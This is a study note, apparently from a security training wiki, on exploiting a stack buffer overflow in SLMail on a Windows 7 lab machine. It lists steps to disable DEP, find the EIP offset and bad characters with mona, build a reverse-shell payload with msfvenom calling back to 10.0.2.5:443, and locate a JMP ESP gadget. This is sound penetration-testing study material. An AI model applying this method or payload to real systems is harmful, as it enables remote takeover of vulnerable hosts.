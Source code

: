 {% tab title="s4vitar mode" %}
{% code overflow="wrap" %}
```sh
https://www.youtube.com/watch?v=sdZ8aE7yxMk&list=WL&index=29

# Enable rules in-bound and out-bound for ICMP traffic
Firewall > File and Printer Sharing (Echo ... ICMP...) > Enable rule (4 rules)

# Ping the W7 machine to check it's set correctly
cmd > bcdedit /set {currrent} nx AlwaysOff // disable DEP
# bootcfg /raw /id 1 "/noexecute=alwaysoff" in Win XP

# Install slmail
Create new rule to allow inbound-outbound traffic on ports 25,110
Scan your Windows machine with nmap
Download Immunity Debugger, run it as admin
searchsploit slmail
download mona > copy mona.py inside ImmunityDebugger\Pycommands folder
Run Slmail as admin
Establish a socket connection --> take exploit.py, do not forget \r\n

# NOTE: IF THE BINARY CRASHES BUT THE EIP IS NOT OVERWRITTEN WITH OUR PAYLOAD 
(41414141 IF "A") --> INCREASE THE COUNTER (SUM MORE EVERY ITER) COUN=COUN+350 

When we know approx nº bytes for the program to crash --> modify the script
to include pattern_create.rb -l 2500 (if we know the program crashes with that)

Then when it crashes, note EIP result and do pattern_offset -l 2500 -q $EIP and
we get the offset.

We check it by doing buffer = "A"*offset + "B"*4 --> we should see 42424242 in EIP

Now in Immunity Debbuger --> !mona config -set workingfolder c:\mona\%p
# NOTE: The working folder will be created there with the name of the process after executing the comand below:
!mona bytearray
We copy all those bytes to the exploit.py as a new variable badchars
Run the exploit again with that badchars variable
badchars=("ALL THE BADCHARS HERE")
buffer = "A"*2606 + "B"*4 + badchars

!mona compare -f $.bin_file_path -a $ESP // we note the badchar, ESP w/o 0x
!mona bytearray -cpb "\x00" //we delete that/those badchars (00 for example)

# Then we remove that badchar from our badchar in exploit.py and run it again
!mona compare -f $.bin_file_path -a $ESP # we note the badchar
!mona bytearray -cpb "\x00\x0a" # now we have to add the badchars consecutively
# We also remove that, the last badchar we saw, from exploit.py

# We repeat this process until mona says there are no more badchars

#Then we create our shellcode:
msfvenom -p windows/shell_reverse_tcp lhost=10.0.2.5 lport=443 -a x86 --platform windows -b "\x00\x0a\x0d" -e x86/shikata_ga_nai -f c 
# IF MSFVENOM SAYS IT WAS NOT POSSIBLE TO GENERATE SHELLCODE--> don't use -e (encoder)

#We remove the variable badchars and replace it for our variable shellcode. Later we need the opcode instead of "B"*4 to overwrite the EIP and go to a jump that will execute our shellcode (EIP will point to JMP ESP)
`locate nasm_shell.rb` 
nasm > jmp ESP // we note the opcode
with !mona modules we can list modules, see DLLs, protections and so on
# We choose a module without protections
!mona find -s "\xff\xe4" -m $MODULE // in case the opcode from nasm was FFE4
```